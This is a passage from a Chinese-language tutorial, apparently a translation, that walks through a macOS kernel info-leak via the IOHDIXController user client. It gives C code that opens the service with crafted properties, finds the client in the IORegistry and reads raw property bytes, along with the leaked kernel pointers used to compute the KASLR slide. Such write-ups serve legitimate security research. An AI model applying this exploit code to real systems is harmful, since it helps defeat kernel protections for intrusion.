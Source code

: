 <table><tbody><tr><td class="gutter"><pre><div class="line">1</div><div class="line">2</div><div class="line">3</div><div class="line">4</div><div class="line">5</div><div class="line">6</div><div class="line">7</div></pre></td><td class="code"><pre><div class="line">serv = IOServiceGetMatchingService(master, IOServiceMatching(<span class="string">"IOHDIXController"</span>));</div><div class="line"></div><div class="line">kr = io_service_open_extended(serv, mach_task_self(), <span class="number">0</span>, NDR_record, (<span class="keyword">io_buf_ptr_t</span>)dict, idx, &amp;err, &amp;conn);</div><div class="line"><span class="keyword">if</span> (kr == KERN_SUCCESS) {</div><div class="line">    <span class="built_in">printf</span>(<span class="string">"(+) UC successfully spawned! Leaking bytes...\n"</span>);</div><div class="line">} <span class="keyword">else</span></div><div class="line">    <span class="keyword">return</span> <span class="number">-1</span>;</div></pre></td></tr></tbody></table>

首先，我们要获得服务的一个端口，可以使用 IOServiceGetMatchingService 函数，这个函数将会从 IORegistry 中过滤出我们的服务，通过包含服务名字（IOServiceMatching）的匹配字典。然后我们使用私有函数 io\_service\_open\_extended 打开这个服务（产生用户客户端）。这可以让我们直接指定属性。

现在，客户端是用我们指定的属性来创建的。我们怎样访问它呢？我们需要在 IORegistry 中手动迭代，直到找到我们的客户端。然后，我们将会读取属性，从而造成 info-leak。

<table><tbody><tr><td class="gutter"><pre><div class="line">1</div><div class="line">2</div></pre></td><td class="code"><pre><div class="line">IORegistryEntryCreateIterator(serv, <span class="string">"IOService"</span>, kIORegistryIterateRecursively, &amp;iter);</div><div class="line"><span class="keyword">io_object_t</span> object = IOIteratorNext(iter);</div></pre></td></tr></tbody></table>

这段代码所做的是，创建一个 io\_iterator\_t 并且将其设置为 IORegistry 中的 serv。 serv 只是一个代表内核中实际驱动对象的 Mach 端口。因为用户客户端是主驱动对象的客户端，所以在 IORegistry 中，我们的用户客户端将会紧挨着驱动对象之后创建。因此，我们只需增加一次迭代，就可以获得表示我们用户客户端的 Mach 端口。一旦用户客户端对象在内核中被创建，且我们在 IORegistry 中找到它，那么我们就可以读取它的属性，来触发 info-leak 了。

#### 读取属性

<table><tbody><tr><td class="gutter"><pre><div class="line">1</div><div class="line">2</div><div class="line">3</div><div class="line">4</div><div class="line">5</div><div class="line">6</div><div class="line">7</div><div class="line">8</div></pre></td><td class="code"><pre><div class="line"><span class="keyword">char</span> buf[<span class="number">0x200</span>] = {<span class="number">0</span>};</div><div class="line"><span class="keyword">mach_msg_type_number_t</span> bufCnt = <span class="number">0x200</span>;</div><div class="line"></div><div class="line">kr = io_registry_entry_get_property_bytes(object, <span class="string">"AAA"</span>, (<span class="keyword">char</span> *)&amp;buf, &amp;bufCnt);</div><div class="line"><span class="keyword">if</span> (kr == KERN_SUCCESS) {</div><div class="line">    <span class="built_in">printf</span>(<span class="string">"(+) Done! Calculating KASLR slide...\n"</span>);</div><div class="line">} <span class="keyword">else</span></div><div class="line">    <span class="keyword">return</span> <span class="number">-1</span>;</div></pre></td></tr></tbody></table>

我们再次使用一个私有函数 `io_registry_entry_get_property_bytes`。这个函数跟 IORegistryEntryGetProperty 相似，但是可以让我们直接获取原始字节。所以，通过它，`buf` 缓冲区将会包含我们的已被泄漏的字节。让我们打印一下，看看这里都有什么吧：

<table><tbody><tr><td class="gutter"><pre><div class="line">1</div><div class="line">2</div><div class="line">3</div></pre></td><td class="code"><pre><div class="line">for (uint32_t k = 0; k &lt; 128; k += 8) {</div><div class="line">    printf("%#llx\n", *(uint64_t *)(buf + k));</div><div class="line">}</div></pre></td></tr></tbody></table>

以下是输出：

```shell
0x4141414141414141  // our valid number
0xffffff8033c66284  //
0xffffff8035b5d800  //
0x4                 // other data on the stack between our valid number and the ret addr...
0xffffff803506d5a0  //
0xffffff8033c662b4  //
0xffffff818d2b3e30  //
0xffffff80037934bf  // function return address
...
```


[jndok:~jndok(Debug)]: sudo zprint | grep kalloc